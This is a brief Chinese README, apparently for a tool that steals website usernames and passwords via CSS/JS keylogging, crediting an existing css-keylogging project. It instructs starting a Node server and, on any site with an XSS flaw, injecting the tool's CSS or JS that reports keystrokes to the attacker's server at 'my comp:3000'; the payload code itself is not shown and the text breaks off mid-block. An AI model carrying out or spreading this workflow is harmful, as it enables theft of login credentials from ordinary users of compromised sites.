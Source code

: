 # 获取网站用户名密码

> css键盘监控、js来获取信息
>
> 感谢：[css-keylogin](https://github.com/maxchehab/css-keylogging)


1. 首先进入到  `server` 目录
```shell
# 安装依赖
npm i 

# 启动服务
node server.js

```


2. 只要网站有xss，就插入我们的css或者js代码
```shell
# 将url改成我们服务器的  
url="my comp:3000"

# 监控到控制到输入的代码了

```shell